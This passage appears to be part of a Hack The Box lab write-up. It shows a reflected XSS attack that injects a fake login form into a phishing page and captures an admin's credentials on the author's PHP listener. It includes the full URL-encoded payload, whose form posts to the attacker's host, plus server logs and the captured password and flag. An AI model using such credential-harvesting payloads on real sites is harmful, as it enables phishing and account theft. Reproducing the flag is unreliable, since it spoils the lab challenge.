We'll store the file in a directory made in `tmp`, let's follow these steps:

```bash
mkdir /tmp/tmpserver  
cd /tmp/tmpserver  
nano index.php # Paste php code  
sudo php -S 0.0.0.0:80
```

Nice, let's proceed

## Getting the credentials
---

We can now go to `/send.php` and send the URL created at step one, in this case, mine was:

```
http://10.129.147.238/phishing/index.php?url=document.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.141%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B
```


Once we do, we'll get the following credentials on our php server:

```
[Thu Jan 30 22:34:53 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 Accepted
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login
[Thu Jan 30 22:37:44 2025] 10.129.147.238:59210 Closing
```

Credentials are: `admin`:`p1zd0nt57341myp455`

We can log in at `/login.php`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250130174015.png)

Got the flag: `HTB{r3f13c73d_cr3d5_84ck_2_m3}`

